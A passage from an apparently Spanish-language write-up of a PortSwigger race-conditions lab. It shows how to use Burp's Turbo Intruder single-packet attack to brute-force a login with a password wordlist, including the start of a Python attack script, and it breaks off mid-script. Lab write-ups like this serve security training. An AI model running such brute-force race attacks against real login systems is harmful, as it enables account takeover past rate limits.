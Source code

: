 Para `mandar` esta `petición` al `Turbo Intruder` debemos pulsar `click derecho > Extension > Turbo Intruder > Send to turbo intruder`

![](/assets/img/Race-Conditions-Lab-2/image_9.png)

Seleccionamos como script el `race-single-packet-attack`

![](/assets/img/Race-Conditions-Lab-2/image_10.png)

El siguiente paso es `crearnos` un `archivo` que contenga todas las `contraseñas` del diccionario [https://portswigger.net/web-security/authentication/auth-lab-passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords). Posteriormente debemos `marcar` donde queremos que ejerza la `fuerza bruta` usando `%s`

![](/assets/img/Race-Conditions-Lab-2/image_11.png)

Por último, `modificamos` el `script` por defecto para `cargar` un `diccionario` e `iniciamos` el `ataque`

```
def queueRequests(target, wordlists):

    # If the target supports HTTP/2, use engine=Engine.BURP2 to trigger the single-packet attack
    # If they only support HTTP/1, use Engine.THREADED or Engine.BURP instead
    # For more information, check out https://portswigger.net/research/smashing-the-state-machine
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    # Load the wordlist
    wordlist_path = "/home/justice-reaper/Desktop/passwords.txt"
    with open(wordlist_path, 'r') as file:
        passwords = file.readlines()

    # Clean the words (remove line breaks)
```